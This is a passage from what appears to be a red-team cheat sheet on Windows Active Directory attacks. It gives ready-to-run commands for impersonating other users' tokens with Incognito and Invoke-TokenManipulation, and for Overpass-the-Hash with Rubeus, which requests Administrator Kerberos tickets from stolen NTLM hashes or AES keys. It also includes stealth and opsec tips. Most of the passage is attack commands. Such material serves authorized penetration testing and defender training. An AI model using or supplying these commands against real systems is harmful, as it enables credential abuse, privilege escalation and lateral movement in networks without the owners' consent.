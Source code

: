 ### Token Manipulation

Tokens can be impersonated from other users with a session/running processes on the machine. Most C2 frameworks have functionality for this built-in (such as the 'Steal Token' functionality in Cobalt Strike).

#### Incognito

```powershell
# Show tokens on the machine
.\incognito.exe list_tokens -u

# Start new process with token of a specific user
.\incognito.exe execute -c "domain\user" C:\Windows\system32\calc.exe
```

> If you're using Meterpreter, you can use the built-in Incognito module with `use incognito`, the same commands are available.

#### Invoke-TokenManipulation

```powershell
# Show all tokens on the machine
Invoke-TokenManipulation -ShowAll

# Show only unique, usable tokens on the machine
Invoke-TokenManipulation -Enumerate

# Start new process with token of a specific user
Invoke-TokenManipulation -ImpersonateUser -Username "domain\user"

# Start new process with token of another process
Invoke-TokenManipulation -CreateProcess "C:\Windows\system32\calc.exe" -ProcessId 500
```

### Lateral Movement with Rubeus

We can use Rubeus to execute a technique called "Overpass-the-Hash". In this technique, instead of passing the hash directly (another technique known as Pass-the-Hash), we use the NTLM hash of an account to request a valid Kerberost ticket (TGT). We can then use this ticket to authenticate towards the domain as the target user.

```powershell
# Request a TGT as the target user and pass it into the current session
# NOTE: Make sure to clear tickets in the current session (with 'klist purge') to ensure you don't have multiple active TGTs
.\Rubeus.exe asktgt /user:Administrator /rc4:[NTLMHASH] /ptt

# More stealthy variant, but requires the AES256 key (see 'Dumping OS credentials with Mimikatz' section)
.\Rubeus.exe asktgt /user:Administrator /aes256:[AES256KEY] /opsec /ptt

# Pass the ticket to a sacrificial hidden process, allowing you to e.g. steal the token from this process (requires elevation)
.\Rubeus.exe asktgt /user:Administrator /rc4:[NTLMHASH] /createnetonly:C:\Windows\System32\cmd.exe
```

